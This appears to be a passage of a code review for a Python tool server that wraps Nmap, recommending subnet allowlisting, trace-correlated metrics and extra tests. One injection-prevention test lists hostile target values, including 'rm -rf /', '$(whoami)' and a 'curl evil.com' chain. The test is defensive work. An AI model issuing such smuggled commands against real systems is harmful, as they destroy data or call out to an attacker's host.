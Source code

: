3. **Network Segmentation Enforcement**
   - Add VLAN/subnet allowlisting beyond RFC1918:
   ```python
   allowed_subnets: List[ipaddress.IPv4Network] = [
       ipaddress.IPv4Network("10.0.0.0/8"),
       ipaddress.IPv4Network("172.16.0.0/12"),
       # Explicit internal ranges only
   ]
   ```

### 📊 **Observability & Metrics Validation**

Your metrics implementation is solid. The Prometheus integration with fallback to JSON is excellent for production flexibility. 

**Gap Identified**: Add **trace correlation** for distributed debugging:
```python
class MetricsManager:
    def record_tool_execution(self, tool_name: str, trace_id: str, ...):
        # Add trace_id label to all metrics
        self.execution_counter.labels(
            tool=tool_name,
            trace_id=trace_id,  # Enable correlation
            status=status
        ).inc()
```

### 🧪 **Test Coverage Assessment**

Your test plan is comprehensive and well-structured. The layered approach (unit → integration → end-to-end) is correct.

**Critical Test Additions**:

1. **Concurrency Stress Tests**
   ```python
   @pytest.mark.asyncio
   async def test_concurrent_execution_limits():
       """Ensure semaphore prevents resource exhaustion"""
       tool = NmapTool(concurrency=2)
       tasks = [tool.run(ToolInput(target=f"10.0.0.{i}")) for i in range(5)]
       # Assert max 2 concurrent, others queued
   ```

2. **Circuit Breaker State Persistence**
   ```python
   def test_circuit_breaker_survives_reload():
       """Verify circuit state persists across config reloads"""
   ```

3. **Security Boundary Tests**
   ```python
   @pytest.mark.parametrize("payload", [
       "10.0.0.1; rm -rf /",  # Command injection
       "10.0.0.1$(whoami)",   # Subshell injection
       "10.0.0.1 && curl evil.com",  # Chaining attempt
   ])
   async def test_injection_prevention(payload):
       with pytest.raises(ValidationError):
           await tool.run(ToolInput(target=payload))
   ```
